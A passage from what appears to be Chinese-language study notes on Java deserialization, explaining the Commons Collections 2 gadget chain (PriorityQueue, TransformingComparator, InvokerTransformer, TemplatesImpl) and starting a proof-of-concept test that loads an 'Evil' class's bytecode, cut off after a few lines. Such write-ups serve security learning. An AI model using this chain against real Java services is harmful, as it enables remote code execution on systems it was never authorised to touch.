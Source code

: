     ![image-20240929123745463](Serialization-Java/image-20240929123745463.png)
    ![image-20240929123756586](Serialization-Java/image-20240929123756586.png)
    这里大概就是排序了，调用了 `comparator`。
    注意到比较的逻辑是将 `queue` 中的元素放进 `TransformingComparator.compare()`，因此需要**控制 `queue` 中的元素，将其换成 `TemplatesImpl`**，这样 `compare()` 中的 `InvokerTransformer` 才能定位到 `TemplatesImpl.newTransformer()`。

### 8.4 PoC 编写

1. 个人写的 PoC 如下：
    ```java
    // CC 4.0
    @Test
        public void testCC2() throws IOException, CannotCompileException, NotFoundException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
            // 1. 读取恶意类 bytes[]
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
            byte[] bytes = ctClass.toBytecode();
    
